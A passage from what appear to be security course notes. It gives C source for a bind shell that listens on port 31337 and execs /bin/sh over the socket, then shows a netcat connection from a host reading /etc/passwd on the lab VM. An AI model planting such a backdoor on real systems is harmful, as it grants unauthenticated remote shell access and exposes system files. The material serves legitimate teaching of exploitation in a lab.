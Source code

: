``` {.c}
  host_addr.sin_port=htons(31337);
  host_addr.sin_addr.s_addr=INADDR_ANY;

  //bind server socket
  if(bind(server, (struct sockaddr *) &host_addr, sizeof(struct sockaddr)) < 0){
    perror("bind");
    return 1;
  }

  //set up listening queue
  listen(server,4);

  //size of incoming addresses
  sin_size = sizeof(struct sockaddr_in);

  //accept incoming connection
  client = accept(server, (struct sockaddr *) &client_addr, &sin_size);


  //duplicate file descriptors for socket
  dup2(client, 0);
  dup2(client, 1);
  dup2(client, 2); 

  //execve shell
  char *args[2]={"/bin//sh", NULL};
  execve(args[0], args, NULL);

  return 0;
}
```

Now if I start the server on my local VM

``` {.example}
user@si485H-base:demo$ ./rsh
```

On my host computer, I can connect over netcat, and then type `cat
/etc/passwd` and it will go give me what I desire!

``` {.example}
[aviv@potbelly] 14 > netcat 192.168.56.101 31337
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
```